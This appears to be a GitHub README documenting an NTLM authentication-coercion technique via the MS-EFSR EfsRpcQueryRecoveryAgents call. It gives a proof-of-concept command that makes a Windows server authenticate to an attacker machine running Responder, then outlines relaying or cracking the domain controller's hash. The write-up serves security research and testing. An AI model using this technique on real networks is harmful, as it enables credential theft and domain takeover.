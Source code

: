 # MS-EFSR - Remote call to EfsRpcQueryRecoveryAgents (opnum 7)

## Summary

+ **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\pipe\efsrpc`

+ **Function name**: [`EfsRpcQueryRecoveryAgents`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/cf759c00-1b90-4c33-9ace-f51c20149cea)

+ **Function operation number**: `7`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\efsrpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\efsrpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcQueryRecoveryAgents`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/cf759c00-1b90-4c33-9ace-f51c20149cea) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcQueryRecoveryAgents('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD EfsRpcQueryRecoveryAgents(
   [in] handle_t binding_h,
   [in, string] wchar_t* FileName,
   [out] ENCRYPTION_CERTIFICATE_HASH_LIST** RecoveryAgents
 );
```

## References

+ Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

+ Documentation of function `EfsRpcQueryRecoveryAgents`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/cf759c00-1b90-4c33-9ace-f51c20149cea